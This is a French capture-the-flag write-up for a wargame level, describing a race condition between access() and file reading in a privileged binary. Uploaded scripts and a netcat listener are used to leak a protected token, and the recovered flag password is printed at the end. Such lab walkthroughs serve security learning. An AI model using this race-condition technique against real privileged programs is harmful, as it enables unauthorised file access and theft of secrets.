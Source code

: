 On voit un fichier level09 à la racine du home, qui s'execute avec les permissions de `flag10`, ainsi qu'un autre fichier `token` appartenant à flag10 et ne pouvant être lu que par ce dernier.
`./level10` nous indique qu'un argument doit être passé, ainsi qu'un host qui recevra le contenu du fichier.

La technique du lien symbolique ne fonctionne plus, mais on voit que access est appelé. Si aucune autre vérification est faite avant la lecture du fichier, une race condition peut peut-être être faite.

On donne les droits a /home/user dans level10, on fait 2 script, un pour faire la race condition et l'autre pour lancer l'executable en boucle, puis on les envoie avec la commande:

`scp -P 4242 level10/resources/invert.bash level10@10.12.200.80:/home/user/level10`.
`scp -P 4242 level10/resources/spam.bash level10@10.12.200.80:/home/user/level10`.

Apres avoir recu les fichiers, on peut donc commencer a les lancer

`./invert.bash a token &`
`./spam.bash`

Puis dans une autre fenetre on fait:

`nc -lk 6969`

On attends un peu...
Et on obtient le mot de passe de flag10 "woupa2yuojeeaaed06riuj63c".
